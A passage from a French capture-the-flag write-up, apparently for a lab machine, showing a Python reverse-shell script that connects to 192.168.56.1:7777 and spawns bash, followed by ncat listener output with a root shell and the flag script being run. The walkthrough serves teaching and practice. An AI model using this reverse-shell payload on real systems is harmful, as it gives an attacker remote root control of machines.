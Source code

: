 Il s'agit bien de l'exécution qu'on attendait et pas besoin ici des permissions `o+x`. J'ai donc modifié le script Python comme ceci :

```python
import socket
import subprocess
import os
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.56.1", 7777))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p = subprocess.call(["/bin/bash", "-i"])
```

Et j'obtenais mon shell :

```console
$ ncat -l -p 7777 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
Ncat: Connection from 192.168.56.193.
Ncat: Connection from 192.168.56.193:47768.
bash: cannot set terminal process group (1025): Inappropriate ioctl for device
bash: no job control in this shell
root@view:~/destroy/7f98ca7ba1484c66bf09627f931448053ae6b55a# id
id
uid=0(root) gid=0(root) groups=0(root)
root@view:~/destroy/7f98ca7ba1484c66bf09627f931448053ae6b55a# cd /root
cd /root
root@view:~# ls
ls
ctf-scripts
Desktop
destroy
flag
root@view:~# ls flag
ls flag
files
index.php
run_me_for_flag.sh
root@view:~# ./flag/run_me_for_flag.sh
./flag/run_me_for_flag.sh
-------------------------------
-------------------------------
Go here:   http://<ip>:8007
-------------------------------
-------------------------------
```

## Making of
